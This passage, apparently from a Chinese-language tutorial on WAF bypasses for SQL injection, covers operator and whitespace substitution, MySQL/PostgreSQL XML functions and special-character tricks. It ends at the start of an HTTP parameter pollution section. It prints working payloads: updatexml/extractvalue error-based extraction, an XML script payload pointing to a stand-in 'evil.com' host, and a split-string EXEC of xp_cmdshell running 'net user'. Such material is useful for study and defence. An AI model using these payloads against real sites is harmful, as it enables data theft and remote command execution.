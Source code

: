 2.符号

and和or有可能不能使用，或者可以试下&&和||能不能用；还有=不能使用的情况，可以考虑尝试<、>，因为如果不小于又不大于，那边是等于了

在看一下用得多的空格，可以使用如下符号表示其作用：%20 %09 %0a %0b %0c %0d %a0 /**/

3.生僻函数

MySQL/PostgreSQL支持XML函数：Select UpdateXML(‘<script x=_></script> ’,’/script/@x/’,’src=//evil.com’);　　　　　　　　　　

?id=1 and 1=(updatexml(1,concat(0x3a,(select user())),1))

SELECT xmlelement(name img,xmlattributes(1as src,'a\l\x65rt(1)'as \117n\x65rror));　//postgresql

?id=1 and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1)));

MySQL、PostgreSQL、Oracle它们都有许多自己的函数，基于黑名单的filter要想涵盖这么多东西从实际上来说不太可能，而且代价太大，看来黑名单技术到一定程度便遇到了限制

 

## f) 特殊符号

这里我把非字母数字的字符都规在了特殊符号一类，特殊符号有特殊的含义和用法，涉及信息量比前面提到的几种都要多

先看下乌云drops上“waf的绕过技巧”一文使用的几个例子：

1.使用反引号`，例如select `version()`，可以用来过空格和正则，特殊情况下还可以将其做注释符用

2.神奇的"-+."，select+id-1+1.from users; “+”是用于字符串连接的，”-”和”.”在此也用于连接，可以逃过空格和关键字过滤

3.@符号，select@^1.from users; @用于变量定义如@*var_name*，一个@表示用户定义，@@表示系统变量

4.Mysql function() as xxx  也可不用as和空格　　 select-count(id)test from users;  //绕过空格限制

可见，使用这些字符的确是能做很多事，也证实了那句老话，只有想不到，没有做不到

本人搜罗了部分可能发挥大作用的字符(未包括'、*、/等在内，考虑到前面已经出现较多次了)：`、~、!、@、%、()、[]、.、-、+ 、|、%00

举例：

关键字拆分：‘se’+’lec’+’t’

　　　　　　%S%E%L%E%C%T 1

　　　　　　1.aspx?id=1;EXEC(‘ma’+'ster..x’+'p_cm’+'dsh’+'ell ”net user”’)

!和()：' or --+2=- -!!!'2

 　　　 id=1+(UnI)(oN)+(SeL)(EcT)　//另 Access中,”[]”用于表和列,”()”用于数值也可以做分隔

本节最后在给出一些和这些字符多少有点关系的操作符供参考：

\>>, <<, >=, <=, <>,<=>,XOR, DIV, SOUNDS LIKE, RLIKE, REGEXP, IS, NOT, BETWEEN

使用这些"特殊符号"实现绕过是一件很细微的事情，一方面各家数据库对有效符号的处理是不一样的，另一方面你得充分了解这些符号的特性和使用方法才能作为绕过手段

 

## g) HTTP参数控制

这里HTTP参数控制除了对查询语句的参数进行篡改，还包括HTTP方法、HTTP头的控制

1.HPP(HTTP Parameter Polution)
